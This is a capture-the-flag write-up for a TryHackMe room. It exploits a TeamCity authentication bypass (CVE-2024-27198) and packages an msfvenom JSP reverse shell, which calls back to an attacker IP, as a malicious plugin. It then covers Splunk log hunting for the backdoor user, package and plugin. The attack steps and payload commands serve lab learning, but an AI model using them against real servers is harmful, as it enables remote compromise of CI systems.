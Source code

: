 
**CTF**: [Brains](https://tryhackme.com/r/room/brains) - Easy

**Table of Contents**
- [RED](#red)
  - [Reconnaissance](#reconnaissance)
    - [TeamCity](#teamcity)
  - [Exploitation](#exploitation)
  - [Escalation](#escalation)
- [BLUE](#blue)
    - [1. What is the name of the backdoor user which was created on the server after exploitation?](#1-what-is-the-name-of-the-backdoor-user-which-was-created-on-the-server-after-exploitation)
    - [2. What is the name of the malicious-looking package installed on the server?](#2-what-is-the-name-of-the-malicious-looking-package-installed-on-the-server)
    - [3. What is the name of the plugin installed on the server after successful exploitation?](#3-what-is-the-name-of-the-plugin-installed-on-the-server-after-successful-exploitation)

# RED

## Reconnaissance
See what is running: `nmap $IP` and `nmap -p 22,80,50000 $IP`
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
50000/tcp open  ibm-db2?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Website on port `80` is basically empty.

### TeamCity

Nmap couldn't recognize the service running on port `50000`, after accessing we get into **TeamCity** 
(JetBrains) login page, which is a CI/CD tool, we can see that the version is `Version 2023.11.3`. 

<img src="./red/Cattura3.PNG"/>

Searching for known exploits we can find [CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198) 
that is an authentication bypass vulnerability for TeamCity	<= 2023.11.3.
There are two exploits available, discovered the second exploit later, after I had already gained a web shell; the second exploit automates this process.
- [Auth Bypass](https://github.com/yoryio/CVE-2024-27198)
- [Auth Bypass + RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE)

> IMPORTANT: The following section will cover the manual exploitation to get the Web Shell. 

Using the first exploit we can create the new user:

<img src="./red/Cattura5.PNG"/>

Then I changed the password for `administrator` user under **Administration** -> **Users** -> **administrator**, 
as you can see below; even if this wasn't necessary, this is something I would look out for.

<img src="./red/Cattura9.PNG"/>

## Exploitation

While exploring the **Administration** dashboard we can see, at the bottom of the lateral panel the **Plugins** 
section that looks as follows:

<img src="./red/Cattura18.PNG"/>

I supposed we could upload a jar/jsp reverse shell as a plugin so I created one with `msfvenom`:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp
```

I tried to upload it; however, it required a ZIP file; so I added it to a zip folder, still got error...
At this point, I decided to reference the [Plugins Packaging](https://plugins.jetbrains.com/docs/teamcity/plugins-packaging.html) 
documentation for TeamCity, there is what the zip folder should contain:
```
|- server
|    - shell.jar
|      - buildServerResources
|        - shell.jsp
|- teamcity-plugin.xml
```

So the steps to get the Web Shell from the **Plugins** page are: 
1. (*Done*) Create `shell.jsp`: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp`

2. Create `teamcity-plugin.xml`:
```
<?xml version="1.0" encoding="UTF-8"?>
<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
    <info>
        <name>shell</name>
        <display-name>shell</display-name>
        <description>a very useful plugin</description>
        <version>1.0</version>
        <vendor>
            <name>deez</name>
            <url>http://jomama.gov</url>
        </vendor>
    </info>
    <deployment use-separate-classloader="true" node-responsibilities-aware="true"/>
</teamcity-plugin>
```

1. Create `shell.jar`: `mkdir buildServerResources && mv shell.jsp buildServerResources/ && zip -r shell.jar buildServerResources/ && rm -fr buildServerResources/`

2. Zip shell folder: `zip -r shell.zip teamcity-plugin.xml shell.jar`

3. `nc -lnvp 4444` on Attacker Machine and we can then access `http://$IP:50000/plugins/shell/shell.jsp` to run the shell.

<img src="./red/Cattura26.PNG"/>

## Escalation

Actually, there isn’t much left to do after gaining the web shell; we can just go into the home and get `flag.txt` content:

<img src="./red/Cattura27.PNG"/>

**BONUS**: even if not required, try to get root. (it couldn't be easier)

# BLUE

> Disclaimer: I've never used Splunk before this CTF.

<img src="./blue/Cattura7.PNG"/>

### 1. What is the name of the backdoor user which was created on the server after exploitation?

There are various ways to create a backdoor on a machine, but the question gives us a hint: it is a new user; so we can create a table with the filter `* source="/var/log/auth.log"`, there, by hovering on "name" field, we can see the user: **eviluser**.

<img src="./blue/Cattura4.PNG"/>

### 2. What is the name of the malicious-looking package installed on the server?

This one took me some time, we know that we want to look for packages installed in the `dpkg.log`, however there are more than 3000 entries. 

To make the search easier I wanted to extract a list of the installed packages, so I asked GPT if there was a way to do it in Splunk, and it came up with the following filter: `source="/var/log/dpkg.log" "install" | sort _time | rex field=_raw "install (?<package_name>\S+)" | table package_name`; the package **datacollector** looks like something malicious.

<img src="./blue/Cattura10.PNG"/>

<img src="./blue/Cattura11.PNG"/>

### 3. What is the name of the plugin installed on the server after successful exploitation?

To answer this question we need to dig into TeamCity logs since there we can find any activity related to plugin installation; we can create a table using the following filter: `* source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"`

```
[2024-07-04 22:08:31,921]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_uploaded: Plugin "AyzzbuXY" was updated by "user with id=11" with comment "Plugin was uploaded to /home/ubuntu/.BuildServer/plugins/AyzzbuXY.zip"
```

The malicious plugin name is **AyzzbuXY.zip**.

<img src="./blue/Cattura2.PNG"/>









